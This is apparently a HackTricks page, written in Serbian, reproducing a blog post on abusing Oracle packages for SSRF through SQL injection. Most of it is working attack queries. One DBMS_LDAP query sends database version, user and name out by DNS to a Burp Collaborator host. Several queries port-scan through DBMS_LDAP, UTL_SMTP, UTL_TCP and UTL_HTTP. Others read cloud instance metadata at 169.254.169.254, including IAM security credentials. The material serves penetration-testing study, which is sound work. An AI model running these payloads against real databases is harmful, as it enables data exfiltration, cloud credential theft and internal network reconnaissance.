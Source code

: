 # Oracle injection

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**Poslužite se ovim postom kao kopijom iz wayback mašine obrisanog posta sa [https://ibreak.software/2020/06/using-sql-injection-to-perform-ssrf-xspa-attacks/](https://ibreak.software/2020/06/using-sql-injection-to-perform-ssrf-xspa-attacks/)**.

## SSRF

Korišćenje Oracle-a za slanje Out of Band HTTP i DNS zahteva je dobro dokumentovano, ali kao sredstvo za ekfiltraciju SQL podataka u injekcijama. Uvek možemo modifikovati ove tehnike/funkcije da bismo uradili druge SSRF/XSPA.

Instalacija Oracle-a može biti zaista bolna, posebno ako želite da postavite brzu instancu da isprobate komande. Moj prijatelj i kolega iz [Appsecco](https://appsecco.com), [Abhisek Datta](https://github.com/abhisek), ukazao mi je na [https://github.com/MaksymBilenko/docker-oracle-12c](https://github.com/MaksymBilenko/docker-oracle-12c) koji mi je omogućio da postavim instancu na t2.large AWS Ubuntu mašini i Docker-u.

Pokrenuo sam docker komandu sa `--network="host"` flag-om kako bih mogao da imitiram Oracle kao nativnu instalaciju sa punim pristupom mreži, tokom ovog blog posta.
```
docker run -d --network="host" quay.io/maksymbilenko/oracle-12c
```
#### Oracle paketi koji podržavaju specifikaciju URL-a ili imena hosta/broja porta <a href="#oracle-packages-that-support-a-url-or-a-hostname-port-number-specification" id="oracle-packages-that-support-a-url-or-a-hostname-port-number-specification"></a>

Da bih pronašao bilo koje pakete i funkcije koje podržavaju specifikaciju hosta i porta, izvršio sam Google pretragu na [Oracle Database Online Documentation](https://docs.oracle.com/database/121/index.html). Konkretno,
```
site:docs.oracle.com inurl:"/database/121/ARPLS" "host"|"hostname" "port"|"portnum"
```
Pretraga je vratila sledeće rezultate (neki se ne mogu koristiti za obavljanje izlazne mreže)

* DBMS\_NETWORK\_ACL\_ADMIN
* UTL\_SMTP
* DBMS\_XDB
* DBMS\_SCHEDULER
* DBMS\_XDB\_CONFIG
* DBMS\_AQ
* UTL\_MAIL
* DBMS\_AQELM
* DBMS\_NETWORK\_ACL\_UTILITY
* DBMS\_MGD\_ID\_UTL
* UTL\_TCP
* DBMS\_MGWADM
* DBMS\_STREAMS\_ADM
* UTL\_HTTP

Ova gruba pretraga očigledno preskočuje pakete kao što je `DBMS_LDAP` (koji omogućava prosleđivanje imena hosta i broja porta) jer [stranica sa dokumentacijom](https://docs.oracle.com/database/121/ARPLS/d\_ldap.htm#ARPLS360) jednostavno upućuje na [drugu lokaciju](https://docs.oracle.com/database/121/ARPLS/d\_ldap.htm#ARPLS360). Stoga, može postojati i drugi Oracle paketi koji se mogu zloupotrebiti za slanje izlaznih zahteva koje sam možda propustio.

U svakom slučaju, hajde da pogledamo neke od paketa koje smo otkrili i naveli iznad.

**DBMS\_LDAP.INIT**

Paket `DBMS_LDAP` omogućava pristup podacima sa LDAP servera. Funkcija `init()` inicijalizuje sesiju sa LDAP serverom i uzima ime hosta i broj porta kao argument.

Ova funkcija je ranije dokumentovana da prikazuje eksfiltraciju podataka preko DNS-a, kao ispod
```
SELECT DBMS_LDAP.INIT((SELECT version FROM v$instance)||'.'||(SELECT user FROM dual)||'.'||(select name from V$database)||'.'||'d4iqio0n80d5j4yg7mpu6oeif9l09p.burpcollaborator.net',80) FROM dual;
```
Međutim, s obzirom na to da funkcija prihvata ime hosta i broj porta kao argumente, možete to koristiti da funkcioniše kao skener portova.

Evo nekoliko primera
```
SELECT DBMS_LDAP.INIT('scanme.nmap.org',22) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',25) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',80) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',8080) FROM dual;
```
A `ORA-31203: DBMS_LDAP: PL/SQL - Init Failed.` pokazuje da je port zatvoren dok vrednost sesije ukazuje na to da je port otvoren.

**UTL\_SMTP**

Paket `UTL_SMTP` je dizajniran za slanje e-mailova preko SMTP-a. Primer dat na [Oracle dokumentacionom sajtu pokazuje kako možete koristiti ovaj paket za slanje e-maila](https://docs.oracle.com/database/121/ARPLS/u_smtp.htm#ARPLS71478). Za nas, međutim, zanimljivo je to što omogućava da se navedu host i specifikacija porta.

Grubi primer je prikazan ispod sa funkcijom `UTL_SMTP.OPEN_CONNECTION`, sa vremenskim ograničenjem od 2 sekunde.
```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',80,2);
END;
```

```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',8080,2);
END;
```
A `ORA-29276: transfer timeout` pokazuje da je port otvoren, ali nije uspostavljena SMTP konekcija, dok `ORA-29278: SMTP transient error: 421 Service not available` pokazuje da je port zatvoren.

**UTL\_TCP**

Paket `UTL_TCP` i njegove procedure i funkcije omogućavaju [TCP/IP baziranu komunikaciju sa servisima](https://docs.oracle.com/cd/B28359\_01/appdev.111/b28419/u\_tcp.htm#i1004190). Ako je programiran za određeni servis, ovaj paket može lako postati način za ulazak u mrežu ili izvršiti potpune Server Side Requests, jer se svi aspekti TCP/IP konekcije mogu kontrolisati.

Primer [na Oracle dokumentacionom sajtu pokazuje kako možete koristiti ovaj paket za uspostavljanje sirove TCP konekcije za preuzimanje web stranice](https://docs.oracle.com/cd/B28359\_01/appdev.111/b28419/u\_tcp.htm#i1004190). Možemo ga malo pojednostaviti i koristiti za slanje zahteva na instancu metapodataka, na primer, ili na proizvoljni TCP/IP servis.
```
set serveroutput on size 30000;
SET SERVEROUTPUT ON
DECLARE c utl_tcp.connection;
retval pls_integer;
BEGIN
c := utl_tcp.open_connection('169.254.169.254',80,tx_timeout => 2);
retval := utl_tcp.write_line(c, 'GET /latest/meta-data/ HTTP/1.0');
retval := utl_tcp.write_line(c);
BEGIN
LOOP
dbms_output.put_line(utl_tcp.get_line(c, TRUE));
END LOOP;
EXCEPTION
WHEN utl_tcp.end_of_input THEN
NULL;
END;
utl_tcp.close_connection(c);
END;
/
```

```
DECLARE c utl_tcp.connection;
retval pls_integer;
BEGIN
c := utl_tcp.open_connection('scanme.nmap.org',22,tx_timeout => 4);
retval := utl_tcp.write_line(c);
BEGIN
LOOP
dbms_output.put_line(utl_tcp.get_line(c, TRUE));
END LOOP;
EXCEPTION
WHEN utl_tcp.end_of_input THEN
NULL;
END;
utl_tcp.close_connection(c);
END;
```
Zanimljivo je da, zbog sposobnosti kreiranja sirovih TCP zahteva, ovaj paket se takođe može koristiti za upit usluge meta-podataka Instance svih provajdera u oblaku, jer se tip metode i dodatni zaglavlja mogu proslediti unutar TCP zahteva.

**UTL\_HTTP i Web Zahtevi**

Možda najčešća i najviše dokumentovana tehnika u svakom tutorijalu o Oracle SQL Injection-u van kanala je [`UTL_HTTP` paket](https://docs.oracle.com/database/121/ARPLS/u_http.htm#ARPLS070). Ovaj paket je definisan u dokumentaciji kao - `UTL_HTTP paket omogućava pozive Hypertext Transfer Protocol (HTTP) iz SQL i PL/SQL. Možete ga koristiti za pristup podacima na Internetu preko HTTP-a.`
```
select UTL_HTTP.request('http://169.254.169.254/latest/meta-data/iam/security-credentials/adminrole') from dual;
```
Možete dodatno koristiti ovo za izvođenje nekih rudimentarnih skeniranja portova sa upitima kao što su
```
select UTL_HTTP.request('http://scanme.nmap.org:22') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:8080') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:25') from dual;
```
A `ORA-12541: TNS:no listener` ili `TNS:operation timed out` je znak da je TCP port zatvoren, dok je `ORA-29263: HTTP protocol error` ili podaci znak da je port otvoren.

Drugi paket koji sam koristio u prošlosti sa različitim uspehom je [`GETCLOB()` metoda `HTTPURITYPE` Oracle apstraktnog tipa](https://docs.oracle.com/database/121/ARPLS/t\_dburi.htm#ARPLS71705) koja vam omogućava da interagujete sa URL-om i pruža podršku za HTTP protokol. `GETCLOB()` metoda se koristi za preuzimanje GET odgovora sa URL-a kao [CLOB tip podataka.](https://docs.oracle.com/javadb/10.10.1.2/ref/rrefclob.html)[select HTTPURITYPE('http://169.254.169.254/latest/meta-data/instance-id').getclob() from dual;

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
